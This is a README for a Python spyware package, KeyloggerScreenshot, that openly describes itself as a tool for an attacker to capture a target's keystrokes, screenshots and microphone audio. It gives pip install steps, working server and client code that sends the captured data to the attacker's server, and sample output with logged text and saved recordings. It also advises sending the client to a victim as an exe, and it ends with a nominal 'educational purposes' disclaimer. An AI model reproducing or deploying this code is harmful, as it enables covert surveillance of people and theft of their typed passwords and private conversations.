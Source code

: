 KeyloggerScreenshot
====================
Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. Follow the instructions to build your own server in "KeyloggerScreenshot"

Check out my github for the more easier way: https://github.com/Facileee/KeyloggerScreenshot

To install KeyloggerScreenshot simply type:

``
pip install KeyloggerScreenshot
``

In your terminal

HOW DOES KeyloggerScreenshot WORK?
==================================
This module can be used in Windows and Linux

The servers can now be run in the same file with the module threading

The port number for each server should be different

The server should obviously be run before the client

You can just copy the following code and insert you ip-address in the variable "ip"

You can find your ip-address in the command line by using the command "ipconfig"

For example:
-----------

Servers
-------

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()
````
Every screenshots, photos and audio files will be saved locally where your server is located even if the connection isn't stable.

Clients
-------
````python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60)
key_client.start()
Output
````
"""

````
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer

Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...
````


Additional
===========
* You can send "client_target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The client should be a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
